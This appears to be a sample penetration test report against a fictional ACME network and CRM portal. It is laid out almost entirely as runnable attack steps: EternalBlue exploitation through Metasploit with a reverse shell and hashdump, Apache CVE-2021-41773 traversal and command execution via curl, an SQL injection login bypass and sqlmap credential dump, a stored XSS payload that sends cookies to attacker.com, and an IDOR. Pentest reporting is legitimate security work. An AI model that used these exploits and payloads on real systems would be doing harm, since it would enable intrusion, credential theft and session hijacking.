 
# Penetration Test Exploitation Report

**Client:** ACME Corporation  
**Test Type:** Internal Network Penetration Test  
**Date:** June 10–15, 2025  
**Tester:** John Doe, OSCP  
**Scope:** 192.168.10.0/24

---

## Target 1: Windows Server 2016 (192.168.10.12)

### Vulnerability: EternalBlue (MS17-010)  
**Goal:** Remote Code Execution, User Shell

### Step 1: Port Scanning

**Tool:** `nmap`  
**Command:**
```
nmap -p- -sC -sV -T4 192.168.10.12
```

**Output:**
```
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds  Windows Server 2016
...
```

### Step 2: Vulnerability Check

**Tool:** `nmap`  
**Command:**
```
nmap --script smb-vuln-ms17-010 -p445 192.168.10.12
```

**Output:**
```
VULNERABLE: Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
```

### Step 3: Exploit Using Metasploit

**Command:**
```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.10.12
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.10.5
run
```

**Output:**
```
[*] Meterpreter session 1 opened
```

### Step 4: Post-Exploitation

**Commands:**
```
sysinfo
getuid
hashdump
```

**Output:**
```
OS: Windows 2016
User: NT AUTHORITY\SYSTEM
```

---

## Target 2: Ubuntu Web Server (192.168.10.15)

### Vulnerability: Apache Path Traversal (CVE-2021-41773)

### Step 1: Web Server Detection
```
nmap -p 80,443 -sV 192.168.10.15
```

### Step 2: Exploit CVE-2021-41773
```
curl --path-as-is http://192.168.10.15/cgi-bin/../../../../etc/passwd
```

**Output:**
```
root:x:0:0:root:/root:/bin/bash
...
```

### Step 3: Remote Code Execution
```
curl -X POST --data-binary @shell.sh http://192.168.10.15/cgi-bin/../../../../var/www/html/shell.sh
```

**Command Execution:**
```
curl http://192.168.10.15/cgi-bin/../../../../bin/bash?-c+"id"
```

**Output:**
```
uid=33(www-data)
```

---

# Web Application Penetration Test Exploitation Report

**Client:** ACME Corp  
**Application:** Internal CRM Portal  
**URL:** http://crm.acme.local  
**Date:** June 10–15, 2025  
**Tester:** John Doe, OSWE

---

## Vulnerability 1: SQL Injection – Login Bypass

### Endpoint: /login.php  
**Payload:**
```
username=admin'--&password=anything
```

**Output:**
```
HTTP/1.1 302 Found -> /dashboard.php
```

**SQLMap Command:**
```
sqlmap -u "http://crm.acme.local/login.php" --data="username=admin&password=pass" --dbs
```

**Dumped Credentials:**
```
admin: 5f4dcc3b5aa765d61d8327deb882cf99 -> password
```

---

## Vulnerability 2: Stored XSS

### Endpoint: /feedback.php  
**Payload:**
```
<script>fetch('http://attacker.com/cookie?c=' + document.cookie)</script>
```

**Triggered by Admin Visit:** `/view-feedback.php`  
**Output:**
```
Attacker receives session cookie
```

---

## Vulnerability 3: IDOR

### Endpoint: /invoices/view.php?id=103  
**Command:**
```
curl "http://crm.acme.local/invoices/view.php?id=101"
```

**Result:** Access to another user's invoice.

---

## Summary

| Vulnerability | Endpoint | Method | Risk |
|---------------|----------|--------|------|
| SQLi | /login.php | Login Bypass | Critical |
| XSS | /feedback.php | Stored | High |
| IDOR | /invoices/view.php?id= | URL Manip | High |

---

## Tools Used
- sqlmap
- curl
- Burp Suite
- hashcat
- Metasploit
